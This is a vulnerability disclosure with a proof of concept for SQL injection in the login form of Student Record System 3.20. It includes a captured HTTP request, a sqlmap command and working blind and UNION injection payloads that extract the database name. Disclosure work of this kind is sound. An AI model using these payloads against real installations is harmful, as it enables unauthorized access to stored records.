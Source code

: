 # Student Record System - SQL Injection - 2
+ **Exploit Title:** Student Record System - SQL Injection - 2
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/student-record-system-php/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7216
+ **Version:** 3.20
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student Record Managment System 3.20 allows SQL Injection via the 'password' parameter in "http://localhost/studentrecordms/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/studentrecordms/login.php"
+ Try logging in with `test`:`test`
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /studentrecordms/login.php HTTP/1.1
Host: localhost
Content-Length: 34
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/studentrecordms/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=16p8fmbt5nnt6j32qlumjroui0
Connection: close

id=test&password=test&submit=login
```

+ Use sqlmap to exploit. In sqlmap, use 'password' parameter to dump the database.
```
sqlmap -r r.txt -p password --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=test&password=test' OR NOT 7408=7408-- hKFk&submit=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=test&password=test' AND (SELECT 1451 FROM (SELECT(SLEEP(5)))vubf)-- QDQj&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=test&password=test' UNION ALL SELECT 24,CONCAT(0x71707a7071,0x747251784a7150777a475a56774c46495368554c5468504a7a577343654d564c7149785067614544,0x71766b7a71)-- -&submit=login
---
[01:20:11] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:20:11] [INFO] fetching current database
current database: 'studentrecorddb'
```
+ current database: `studentrecorddb`

![Ekran görüntüsü 2024-04-01 082141](https://github.com/BurakSevben/CVEs/assets/117217689/d08b5e64-c22f-43d7-98bf-c3b0992fdc51)
